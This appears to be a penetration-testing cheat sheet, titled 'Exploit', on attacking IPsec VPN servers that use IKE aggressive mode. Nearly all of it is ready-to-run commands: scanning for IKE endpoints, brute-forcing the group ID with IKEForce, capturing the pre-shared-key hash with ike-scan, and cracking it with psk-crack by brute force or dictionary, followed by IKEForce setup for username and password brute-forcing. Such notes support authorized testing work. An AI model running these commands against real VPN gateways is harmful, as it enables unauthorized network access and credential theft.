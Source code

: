 # Exploit
1. Identify VPN Servers 
```
./udp-protocol-scanner.pl -p ike [IP]
```
2. Enumerate with IKEForce to obtain the group ID 
```
./ikeforce.py [IP] –e –w [wordlists/groupnames.dic]
```
3. Use ike-scan to capture the PSK hash from the IKE endpoint 
```
ike-scan –M –A –n [example_group] -P [hash-file.txt] [IP]
```
4. Use psk-crack to crack the hash 
```
psk-crack [hash-file.txt]
```
  - More advancded cracking options 
  ```
  psk-crack -b 5 TARGET-IPkey 
  ```
  ```
  psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
  ```
  ```
  psk-crack -d /path/to/dictionary-file TARGET-IP-key 
  ```

## IkeForce 
```
pip install pyip 
git clone https://github.com/SpiderLabs/ikeforce.git 
./ikeforce.py [IP] -b -i [group id] -u [user] -k psk123 -w [passwords.txt] -s 1
```
